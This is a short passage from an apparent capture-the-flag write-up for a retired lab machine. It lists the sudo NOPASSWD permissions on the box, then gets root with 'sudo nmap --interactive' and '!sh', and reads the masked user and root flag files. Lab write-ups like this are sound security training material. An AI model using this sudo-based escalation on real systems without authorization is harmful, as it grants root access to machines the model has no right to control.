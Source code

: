 ```
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 
```

Run the commands(You can find these on GTFO bins) and we have root and the flags!

```
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 
```

```console
cat /home/fanis/user.txt
sh-3.2# cat /home/fanis/user.txt
72c*****************************
sh-3.2# cat /root/root.txt
cat /root/root.txt
36d*****************************
```

Going back to these retired machines and its wild how much easier things use to be.
